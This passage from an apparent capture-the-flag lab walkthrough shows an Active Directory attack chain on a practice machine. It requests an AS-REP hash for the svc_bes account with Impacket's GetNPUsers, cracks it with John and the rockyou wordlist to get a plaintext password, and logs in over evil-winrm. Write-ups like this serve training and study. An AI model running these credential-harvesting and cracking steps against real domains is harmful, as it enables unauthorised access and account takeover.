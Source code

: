 It’s worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting. We can check this using a tool such as Impacket’s GetNPUsers. 

`/tmp/impacket/examples`

`GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30`


```
python3 GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.24.dev1+20210917.161743.0297480b - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:c0aaaeb7928bf9b22eaeea2223e0b27d$38095cd756a81f80c537ab9433fd385f8e34a4edffc1b3a0ce56ee4893cf3245a1180f8d6a9ce0e373bf4e34caea664b5cf59604461a7d4460327b589bcc22b3ea228bca822348cb412034831d3b13796f58be0f74aa08d10742177297880a92a9c279d5acf6c43678fdd110bef4808dea64de81dacce883434b8315327a45a77ced2c61f8a1c2c73b2fed229b859bfff0e9df56bf210f70a7e8b4c7be41d1d07b5ecd3def166be24b1f44b8b55ef6943e6611b6ac86e1584cfe888d9426b7e359227ce490abcd43db7e9b6b0fcb03ab72c4b1aa60857015895bebcd84171560fd1b6935faacdc5be736d387e12d62e6d
```

Once you have the TGT ticket, you can crack it using John

`john tgt_hash -wordlist=/usr/share/wordlists/rockyou.txt`

This gives you `Sheffield19`

`svc_bes:Sheffield19`

We can now user WinRM to access the machine and get user.txt
`evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`
